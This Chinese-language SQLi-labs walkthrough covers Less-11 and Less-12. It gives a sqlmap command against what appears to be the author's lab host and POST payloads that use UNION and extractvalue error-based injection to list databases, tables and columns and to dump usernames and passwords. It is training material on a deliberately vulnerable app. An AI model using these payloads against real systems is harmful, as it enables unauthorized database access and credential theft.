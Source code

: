 ```bash
sqlmap -u "http://daishen.ltd:1112/Less-11/" --data="uname=admin&passwd=2333&submit=Submit" -p "uname" --dbms=MySQL --random-agent --flush-session --technique=T -v 3
```

# **Less-12**

 **POST - Error Based - Double quotes- String-with twist (基于错误的双引号POST型字符型变形的注入)**



### 联合查询注入

> POST 数据里面不能有 `+`，这里得手动转换为空格

```payload
uname=admin&passwd=1")union select 1,(SELECT GROUP_CONCAT(username,password) FROM users)#&submit=Submit
```

爆出位置

```
uname=0") union select 1,2 --+&passwd=admin&submit=Submit
```

暴库payload

```
uname=0") union select 1,database() --+&passwd=admin&submit=Submit
```

暴表payload

```
uname=admin") and 1=2 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() --+&passwd=admin&submit=Submit
```

暴字段

```
uname=admin") and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_name='users' --+&passwd=admin&submit=Submit
```

暴内容

```
uname=admin") and 1=2 union select 1,group_concat(username,0x3a,password,0x23) from users --+&passwd=admin&submit=Submit
```

### extractvalue报错注入

爆库payload

```
uname=admin") and extractvalue(1,concat(0x7e,(select database()))) --+&passwd=admin&submit=Submit
```
